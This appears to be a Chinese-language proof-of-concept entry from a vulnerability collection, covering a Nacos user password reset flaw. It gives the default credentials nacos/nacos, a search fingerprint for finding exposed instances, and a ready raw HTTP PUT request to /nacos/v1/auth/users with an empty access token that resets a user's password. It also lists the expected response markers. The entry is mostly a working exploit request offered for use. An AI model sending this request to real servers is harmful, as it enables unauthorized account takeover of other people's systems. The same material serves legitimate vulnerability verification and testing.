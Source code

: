 ﻿# Nacos 用户密码重置漏洞

> 更新时间：2024-04-19

> 漏洞编号：

> 漏洞说明：默认密码nacos nacos

> 漏洞特征：app="nacos"

> 验证脚本：HTTP

```
PUT /nacos/v1/auth/users?accessToken=&username=dudesite&password=dudesite HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml:q=0.9,image/avif,image/webp.*/*:q=0.8
Accept-Language:zh-CN,zh;q=0.8,zh-TW:q=0.7,zh-HK;q=0.5.en-US:q=0.3.en:q=0.2
Accept-Encoding: gzip, deflate
Comnection: close
Upgrade-Insecure-Requests: 1

```

> 响应代码特征：200

> 响应内容特征：update

> 上传文件定位：

> 验证文件来源：Nacos 用户密码重置漏洞.poc

